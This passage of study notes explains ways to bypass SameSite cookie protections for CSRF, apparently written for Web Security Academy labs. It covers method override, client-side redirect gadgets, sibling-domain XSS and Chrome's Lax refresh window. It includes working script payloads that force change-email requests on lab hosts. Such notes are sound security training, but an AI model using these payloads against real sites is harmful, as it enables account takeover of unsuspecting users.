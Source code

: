 - \_method=POST
- GET /my-account/change-email?email=foo%40web-security-academy.net&\_method=POST HTTP/1

```html
<script>
document.location = "https://0c52008e004f.web-security-academy.net/my-account/change-email?email=test123%40web-security-academy.net&_method=POST";
</script>
```
# SameSite Strict Bypass via Client-Side Redirect

If a cookie is set with the `SameSite=Strict` attribute, browsers wont include it in any cross-site requests. It may be bypassed if you find a gadget that results in a secondary request within the same site. One gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.

As an example, the app is grabbing the value of the `postId` parameter to initiate a client-side redirect. The directory traversal payload in the beginning was required to reach the webroot when the redirection happens.

```url
https://lab.net/post/comment/confirmation?postId=../my-account/change-email?email=test@test.com
```

```html
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
# SameSite Strict Bypass via Sibling Domain

If a cookie is set with the SameSite=Strict attribute, browsers won't include it in any cross-site requests. 

Identify if there are any vulnerabilities in a sibling domain within the same site that enables you to elicit a secondary request, such as an XSS. Using the XSS vector in the sibling domain would allow you to inject the CSRF payload in the request to elicit a same-site request, then the browser would send the session cookies with that CSRF payload request.

>[!info]
>Example for the lab was using the payload to bypass a Cross-Site WebSocket Hijacking (CSWSH) vulnerability as well.
# SameSite Lax Bypass via Cookie Refresh

In Chrome, the default config for SameSite attribute is setting the cookie with Lax 120 seconds after it has been set by the application. It only works when the app does not include the SameSite attribute when setting the cookie.

Since there is a 120 second window where the users are susceptible to cross-site attacks.

The lab demonstrated an example where you can initiate a request that will set a fresh cookie in the user's browser, then submit the CSRF payload, allowing you to submit the CSRF payload always before it reaches the 120 seconds time before the Lax config i set.

The lab combined a functionality used in the OAuth authentication vulnerability section.